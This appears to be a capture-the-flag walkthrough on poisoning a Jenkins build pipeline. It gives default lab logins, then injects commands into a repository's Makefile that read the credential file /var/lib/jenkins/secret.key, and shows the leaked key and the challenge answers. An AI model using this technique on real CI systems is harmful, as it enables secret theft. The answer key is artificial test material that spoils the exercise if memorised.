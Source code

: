 
Gitea
URL: http://10.10.24.222:3000
guest:password123

Jenkins
URL: http://10.10.24.222:8080
admin:admin

Clone the app repository
```bash
git clone http://10.10.24.222:3000/McHoneyBell/gift-wrapper.git
```
Modify Makefile
```makefile
build:
    uname -r
    cat /var/lib/jenkins/secret.key
```
Commit and push
```bash
git add Makefile
git commit -m "Add uname and secret.key"
git push
```

Trigger build on Jenkins, look in console output for uname and secret.key
```
...
+ make
uname -r
5.4.0-1029-aws
cat /var/lib/jenkins/secret.key
90e748eafdd2af4746a5ef7941e63272f24f1e33a2882f614ebfa6742e772ba7
...
```

# What Linux kernel version is the Jenkins node?
5.4.0-1029-aws

# What value is found from /var/lib/jenkins/secret.key?
90e748eafdd2af4746a5ef7941e63272f24f1e33a2882f614ebfa6742e772ba7
